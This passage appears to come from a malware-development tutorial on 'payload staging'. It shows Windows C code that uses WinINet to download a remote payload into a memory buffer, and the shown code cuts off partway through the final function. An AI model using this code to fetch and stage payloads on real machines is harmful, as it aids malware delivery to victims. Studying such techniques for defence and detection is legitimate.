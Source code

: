 ```c

		if (pBytes == NULL) {
			return FALSE;
		}

		// Append the temp buffer to the end of the total buffer
		memcpy((PVOID)(pBytes + (sSize - dwBytesRead)), pTmpBytes, dwBytesRead);

		// Clean up the temp buffer 
		memset(pTmpBytes, '\0', dwBytesRead);

		// If less than 1024 bytes were read it means the end of the file was reached
		// Therefore exit the loop 
		if (dwBytesRead < 1024) {
			break;
		}

		// Otherwise, read the next 1024 bytes
	}

	// Clean up
	InternetCloseHandle(hInternet);
	InternetCloseHandle(hInternetFile);
	InternetSetOptionW(NULL, INTERNET_OPTION_SETTINGS_CHANGED, NULL, 0);
	LocalFree(pTmpBytes);
	LocalFree(pBytes);

	return TRUE;
}

```

### Payload Staging Final - Code Snippet

The `GetPayloadFromUrl` function now takes 3 parameters:

- `szUrl`- The URL of the payload.
    
- `pPayloadBytes` - Returns as the base address of the buffer containing the payload.
    
- `sPayloadSize` - The total size of the payload that was read.
    

The function will also correctly closes the HTTP/S connections once the retrieval of the payload has been completed.

```c
BOOL GetPayloadFromUrl(LPCWSTR szUrl, PBYTE* pPayloadBytes, SIZE_T* sPayloadSize) {

	BOOL		bSTATE            = TRUE;

	HINTERNET	hInternet         = NULL,
			    hInternetFile     = NULL;

	DWORD		dwBytesRead       = NULL;
	
	SIZE_T		sSize             = NULL;
	PBYTE		pBytes            = NULL,
			    pTmpBytes          = NULL;



	hInternet = InternetOpenW(NULL, NULL, NULL, NULL, NULL);
	if (hInternet == NULL){
		printf("[!] InternetOpenW Failed With Error : %d \n", GetLastError());
		bSTATE = FALSE; goto _EndOfFunction;
```